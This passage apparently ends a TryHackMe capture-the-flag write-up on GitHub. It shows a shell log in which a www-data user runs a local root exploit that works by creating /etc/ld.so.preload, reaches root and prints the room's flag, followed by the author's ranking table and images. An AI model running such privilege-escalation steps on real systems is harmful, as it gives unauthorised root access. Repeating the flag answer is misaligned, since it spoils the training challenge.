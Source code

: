 ```bash
www-data@ubuntu:/tmp$ ./exploit
./exploit
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# cd /root
# ls
root.txt
# cat root.txt
THM{g00d_j0b_0day_is_Pleased}
# 
```

<br>
<br>

![image](https://github.com/user-attachments/assets/e6090adb-38fc-47c0-9280-3279984e5e9b)

<br>

![image](https://github.com/user-attachments/assets/8a68d3c0-b07b-4a1f-8e2e-9e68c24aacbd)



<br>
<br>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |Global        | Brazil       | Global      | Brazil     |          | Completed |           |
| May 9, 2025       | 368      |     232nd    |        5ᵗʰ   |   437ᵗʰ     |     9ᵗʰ    | 100,633  |       720 |   62      |

</div>


![image](https://github.com/user-attachments/assets/a51f213a-2ff8-4b57-b62a-dfa82dc6ab40)

<br>

![image](https://github.com/user-attachments/assets/ad31f7b3-7a0a-47a6-8f37-3832ed175c10)

<br>

![image](https://github.com/user-attachments/assets/980b1300-aac7-4ca7-bac6-b7d281ee9db6)

<br>

![image](https://github.com/user-attachments/assets/06f212d5-8ebf-4184-8efc-42de07053a33)

<br>
<br>


![image](https://github.com/user-attachments/assets/b8e88158-0e2e-4e61-8a65-17faf1795da5)






